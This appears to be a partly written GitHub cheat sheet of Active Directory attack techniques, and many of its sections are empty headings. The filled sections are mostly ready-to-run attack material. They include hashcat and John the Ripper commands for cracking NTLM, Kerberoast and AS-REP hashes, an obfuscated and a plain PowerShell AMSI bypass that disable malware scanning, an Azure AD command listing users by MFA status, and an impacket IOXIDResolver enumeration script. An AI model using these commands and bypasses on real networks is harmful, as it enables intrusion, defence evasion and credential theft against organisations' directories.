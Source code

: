 This AD attacks CheatSheet, made by RistBS is inspired by the [Active-Directory-Exploitation-Cheat-Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) repo.


<a href="https://ibb.co/z7DSpds"><img src="https://i.ibb.co/pR53cq2/attack-kill-chain-small.jpg" alt="attack-kill-chain-small" border="0" /></a>

# Active-directory-Cheat-sheet
## Summary

- [AD Exploitation Cheat Sheet by RistBS](#active-directory-exploitation-cheat-sheet)
  - [Summary](#summary)
  - [Tools](#tools)
  - [Hash Cracking]()
  - [Brutforce AD Password]()
    - [Custom Username & Password wordlist]()
  - [RID Cycling]()
  - [Enhanced Security Bypass]()
    - [AntiMalware Scan Interface (AMSI)]()
    - [ConstrainLanguageMode (CLM)]()
    - [Just Enough Administration (JEA)]()
    - [ExecutionPolicy (EP)]()
  - [MS Exchange]()
    - [OWA Password Spraying]()
    - [GAL & OAB Exfiltration]()
    - [Exchange User Enumeration]()
    - [PrivExchange]()
    - [ProxyLogon]()
    - [CVE-2020-0688]()
  - [Forest Persistence]()
    - [DCShadow]()
  - [Cross Forest Attacks](#cross-forest-attacks)
    - [MSSQL Server](mssql-server)
      - [UNC Path Injection](unc-path-injection)
      - [SSRP/MC-SQLR Poisoning](ssrpmcsqlr-poisoning)
      - [Persistence]()
        - [DML, DDL & Logon Triggers]()
     - [Trust Tickets](#trust-tickets)
  - [Azure Active Directory (AAD)]()
    - [User Enumeration]()
  - [Miscs](#miscs)
    - [Domain Level Attribute](#domain-level-attribute)
      - [MachineAccountQuota (MAQ) Exploitation](#machineaccountquota-maq-exploitation) 
    - [Abusing IPv6 in AD](#abusing-ipv6-in-ad)
      - [IOXIDResolver Interface Enumeration](#ioxidresolver-interface-enumeration)


## Tools

## Hash Cracking :

LM :
```bash
# using JTR :
john --format=lm hash.txt
# using hashcat :
hashcat -m 3000 -a 3 hash.txt
```

NT :

```bash
# using JTR :
john --format=nt hash.txt --wordlist=wordlist.txt
# using hashcat :
hashcat -m 1000 -a 3 hash.txt
```


NTLMv1 :

```bash
# using JTR :
john --format=netntlmv1 hash.txt
# using hashcat :
hashcat -m 5500 --force -a 0 hash.txt wordlist.txt
```

NTLMv2 :

```bash
# using JTR :
john --format=netntlmv2 hash.txt
# using hashcat :
hashcat -m 5600 --force -a 0 hash.txt wordlist.txt
```

Kerberoasting :

```bash
# using JTR :
john --format=krb5tgs spn.txt --wordlist=wordlist.txt 
# using hashcat :
hashcat -m 13100 -a 0 spn.txt wordlist.txt --force
```

ASREPRoasting :
```bash
hashcat -m 18200 -a 0 hash wordlist.txt --force
```

note : some Hash Type in hashcat depend of the **etype**

## RID Cycling :

<a href="https://imgbb.com/"><img src="https://i.ibb.co/zPQ6ntJ/rid.png" alt="rid" border="0"></a>

## Enhanced Security Bypass:

### AntiMalware Scan Interface :

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
patching AMSI from Powershell6 :
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('s_amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```


## MS Exhchange :

### Exchange User Enumeration :


## Forest Persistence :


## Cross Forest Attacks :

## Azure Active Directory :

### User Enumeration :

First, we connect to Azure Active Directory with **Connect-MsolService**.
```powershell
PS> Connect-MsolService -Credential $cred
```
this command allow enumeration with MFA (MultiFactor Authentification)
```powershell
Get-MsolUser -EnabledFilter EnabledOnly -MaxResults 50000 | select DisplayName,UserPrincipalName,@{N="MFA Status"; E={ if( $_.StrongAuthenticationRequirements.State -ne $null){ $_. StrongAuthenticationRequirements.State} else { "Disabled"}}} | export-csv mfaresults.csv
```

## Miscs :

### Domain Level Attribute :

#### MachineAccountQuota (MAQ) Exploitation :

use crackmapexec (CME) with maq module :
```sh
cme ldap $dc -d $DOMAIN -u $USER -p $PASSWORD -M maq
```

### Abusing IPv6 in AD :

#### IOXIDResolver Interface Enumeration

it's a little script that enumerate addresses in NetworkAddr field with **RPC_C_AUTHN_DCE_PUBLIC** level
```py
from impacket.dcerpc.v5 import transport
from impacket.dcerpc.v5.dcomrt import IObjectExporter

RPC_C_AUTHN_DCE_PUBLIC  = 2

stringBinding = r'ncacn_ip_tcp:%s' % "IP"
rpctransport = transport.DCERPCTransportFactory(stringBinding)
rpc = rpctransport.get_dce_rpc()
rpc.set_auth_level(RPC_C_AUTHN_DCE_PUBLIC)
rpc.connect()
print("[*] Try with RPC_C_AUTHN_DCE_PUBLIC...")
exporter = IObjectExporter(rpc)
binding = exporter.ServerAlive2()
for bind in binding:
    adr = bind['aNetworkAddr']
    print("Adresse:", adr)
```
